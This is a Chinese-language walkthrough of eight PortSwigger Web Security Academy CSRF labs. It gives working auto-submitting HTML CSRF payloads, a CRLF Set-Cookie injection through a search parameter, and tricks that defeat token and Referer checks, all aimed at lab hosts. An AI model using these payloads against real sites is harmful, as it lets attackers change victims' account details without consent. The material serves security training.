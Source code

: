[TOC]

#### 1. CSRF vulnerability with no defenses

* 用给的账号登陆

* 更改email，并抓包

* 在burp里面生成CSRF PoC，并确定自动提交

    ```html
    <html>
      <!-- CSRF PoC - generated by Burp Suite Professional -->
      <body>
      <script>history.pushState('', '', '/')</script>
        <form action="https://ac451f1d1e0a9d0a8074031e0039009e.web-security-academy.net/email/change-email" method="POST">
          <input type="hidden" name="email" value="456&#64;ae" />
          <input type="submit" value="Submit request" />
        </form>
        <script>
          document.forms[0].submit();
        </script>
      </body>
    </html>
    ```

* 复制这个到exploit server的body框，点击store。

#### 2. CSRF where token validation depends on request method

[CSRF 绕过方式](https://xz.aliyun.com/t/6176#toc-2)

这里抓包之后发现有CSRF-token，盲猜在GET请求的时候不会检查这个。

还是按照前面的过程，但是将自动生成的那个`method="POST"`改成`method="GET"`或者删掉。

然后复制到exploit server，最后store。

#### 3. CSRF where token validation depends on token being present

直接提交不行，改成GET也不行。

[CSRF 绕过方式](https://xz.aliyun.com/t/6176#toc-4)

> ### 删除token参数或发送空token
>
> 不发送token也可以正常请求数据是因为这种逻辑错误在应用程序中非常常见：应用程序有时会在token存在的时候或者token参数不为空的时候检查token的有效性。这种情况下，如果一个请求不包含token或者token值为空，那么也是有可能绕过CSRF的防御的。

这里将token改成空，发现不行。

删除token之后通过了验证。

#### 4. CSRF where token is not tied to user session

[CSRF 绕过方式](https://xz.aliyun.com/t/6176#toc-5)

这里题目给的提示是token没有绑定session，那我们可以用自己的token去试试。

我一开始怎么试都不行，然后又多试了几下，发现token变了，说明token是一次性的。

这里自己改一下密码，然后拦截一下包，复制了token之后就把包给drop了，这时候再用这个复制好的token就可以了。

#### 5. CSRF where token is tied to non-session cookie

先用wiener的账号试了两次改邮箱，发现两次的csrf和csrfKey都是一样的，说明这次的token不是一次性的。

然后我用wiener的csrf和csrfKey去更改carlos邮箱发现也是可以的，证明这个session和csrfKey不是绑定的。

现在的要做的就是更改受害者的cookie，然后再让他点击钓鱼网站。

然后我就卡住了...

看了一下官方的解题过程，是在搜索框使用的CRLF漏洞。

POC:

```html
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
  <script>history.pushState('', '', '/')</script>
    <form action="https://acbe1f681eaad119806704c500280028.web-security-academy.net/email/change-email" method="POST">
      <input type="hidden" name="email" value="456&#64;ae" />
      <input type="hidden" name="csrf" value="P9Rn0kUekymbUYAKylxoJ8PkvsRczN2d" />
      <input type="submit" value="Submit request" />
    </form>
	<img src="https://acbe1f681eaad119806704c500280028.web-security-academy.net/?search=aaa%0d%0aSet-Cookie:%20csrfKey=W0z6LHzn3a7FzVcJeZvg8oAoljRdIvoh" onerror="document.forms[0].submit()">
  </body>
</html>
```

#### 6. CSRF where token is duplicated in cookie

[CSRF 绕过方式](https://xz.aliyun.com/t/6176#toc-6)

这里应该是cookie里的csrf和参数里的csrf一样就能绕过了。

而且看了一下搜索框仍然有那个CRLF漏洞。

POC:

```html
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
  <script>history.pushState('', '', '/')</script>
    <form action="https://acb71f311ef923a2805b169300560070.web-security-academy.net/email/change-email" method="POST">
      <input type="hidden" name="email" value="456&#64;ae" />
      <input type="hidden" name="csrf" value="eval" />
      <input type="submit" value="Submit request" />
    </form>
    <img src="https://acb71f311ef923a2805b169300560070.web-security-academy.net/?search=aaa%0d%0aSet-Cookie:%20csrf=eval" onerror="document.forms[0].submit()">
  </body>
</html>
```

#### 7. CSRF where Referer validation depends on header being present

[CSRF 绕过方式](https://xz.aliyun.com/t/6176#toc-8)

用burp抓包发现不添加referer也可以更改成功。

POC：

```html
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
  <script>history.pushState('', '', '/')</script>
    <form action="https://acaa1fd11fee69f880217f8f00d70039.web-security-academy.net/email/change-email" method="POST">
      <input type="hidden" name="email" value="111&#64;uu" />
      <input type="submit" value="Submit request" />
    </form>
	<meta name ="referrer" content ="no-referrer">
    <script>
      document.forms[0].submit();
    </script>
  </body>
</html>
```

#### 8. CSRF with broken Referer validation

[CSRF 绕过方式](https://xz.aliyun.com/t/6176#toc-9)

通过不断地测试，发现这里是白名单测试referer里的字段`acbf1f801eb6b1f880d389f200970060.web-security-academy.net`，只要将这个改成`acbf1f801eb6b1f880d389f200970060.web-security-academy.net.xxx`就可以绕过，如果能够用原来的referer也行。

使用`history.pushState("", "", "/?acbf1f801eb6b1f880d389f200970060.web-security-academy.net")`就可以更改referer，便可以绕过。

POC:

```html
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
  <script>history.pushState('', '', '/?acbf1f801eb6b1f880d389f200970060.web-security-academy.net')</script>
    <form action="https://acbf1f801eb6b1f880d389f200970060.web-security-academy.net/email/change-email" method="POST">
      <input type="hidden" name="email" value="111&#64;uu" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      document.forms[0].submit();
    </script>
  </body>
</html>
```

